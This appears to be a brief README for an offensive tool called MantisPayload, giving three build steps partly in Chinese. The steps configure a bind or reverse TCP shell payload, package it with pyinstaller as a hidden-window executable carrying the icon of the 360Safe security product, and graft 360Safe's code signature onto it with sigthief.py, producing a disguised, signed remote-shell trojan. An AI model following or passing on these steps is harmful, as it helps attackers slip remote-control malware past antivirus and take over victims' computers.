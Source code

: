 # MantisPayload
1. 修改 payload.py bind_tcp 或 rpayload reverse_tcp
2. pyinstaller -F -w -i 360Safe.exe rpayload.py
3. python sigthief.py -i 360Safe.exe -t dst/rpayload.exe -o rp.exe